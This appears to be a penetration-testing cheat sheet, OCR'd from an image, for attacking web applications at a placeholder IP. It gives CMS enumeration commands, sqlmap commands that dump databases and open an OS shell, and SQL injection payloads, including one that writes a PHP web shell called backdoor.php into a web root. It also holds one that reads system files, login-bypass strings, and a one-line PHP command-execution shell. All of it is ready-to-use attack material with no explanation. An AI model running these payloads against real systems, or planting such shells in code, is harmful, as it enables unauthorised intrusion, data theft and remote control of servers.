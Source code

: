 # WordPress
wpscan --url http://10.10.10.10 --enumerate u

# Drupal
# https://github.com/droope/droopescan
droopescan scan drupal -u http://10.10.10.10

# Joomla
# https://github.com/rezasp/joomscan
joomscan --url http://10.10.10.10

# sqlmap crawl  
sqlmap -u http://10.10.10.10 --crawl=1

# sqlmap dump database  
sqlmap -u http://10.10.10.10 --dbms=mysql --dump

# sqlmap shell  
sqlmap -u http://10.10.10.10 --dbms=mysql --os-shell

# Upload php command injection file
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'

# Load file
union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6

# Bypass
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -

# PHP command injection from GET Request
<?php echo system($_GET["cmd"]);?>
